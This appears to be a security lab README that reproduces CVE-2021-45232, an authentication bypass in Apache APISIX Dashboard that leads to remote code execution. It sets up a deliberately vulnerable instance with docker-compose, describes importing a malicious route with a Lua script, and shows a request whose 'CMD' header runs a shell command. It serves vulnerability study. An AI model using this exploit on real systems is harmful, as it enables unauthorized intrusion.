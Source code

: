 # Apache APISIX Dashboard Unauthenticated Access Leads to RCE (CVE-2021-45232)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway, and Apache APISIX Dashboard is a easy to use frontend interface that is used to manage the Apache APISIX.

In Apache APISIX Dashboard before 2.10.1, the Manager API uses two frameworks and introduces framework `droplet` on the basis of framework `gin`, all APIs and authentication middleware are developed based on framework `droplet`. But there are 2 of these APIs `/apisix/admin/migrate/export` and `/apisix/admin/migrate/import` directly use the interface of framework `gin` which are able to bypass the authentication.

By using these 2 unauthenticated API endpoints, attackers can export and import arbitrary Apache APISIX configuration including routers, services, scripts etc, that leads to reqeust unexpected URL (SSRF) or execute arbitrary LUA scripts (RCE).

References:

- https://apisix.apache.org/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## Vulnerable environment

Execute following command to start a vulnerable Apache APISIX Dashboard 2.9:

```
docker-compose up -d
```

Then you can access `http://your-ip:9000/` to see the login page for Apache APISIX Dashboard.

## Exploit

`/apisix/admin/migrate/export` and `/apisix/admin/migrate/import` are 2 unauthenticated API provided by Apache APISIX Dashboard, that are used to export and import configuration for Apache APISIX. So we can simplely import a craft configuration with evil router that contains user provided LUA script:

![](1.png)

Noted that the last 4 bytes are CRC checksum of this file, so it's better to use a automatic POC to build and send the request, for example [this POC](https://github.com/wuppp/cve-2021-45232-exp).

After adding the evil router, you should send the request to Apache APISIX (difference from Apache APISIX Dashboard) to trigger the LUA script. 

The Apache APISIX is listening on port 9080 in this environment:

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```

![](2.png)

As you can see, the command in `CMD` header is executed by Apache APISIX.

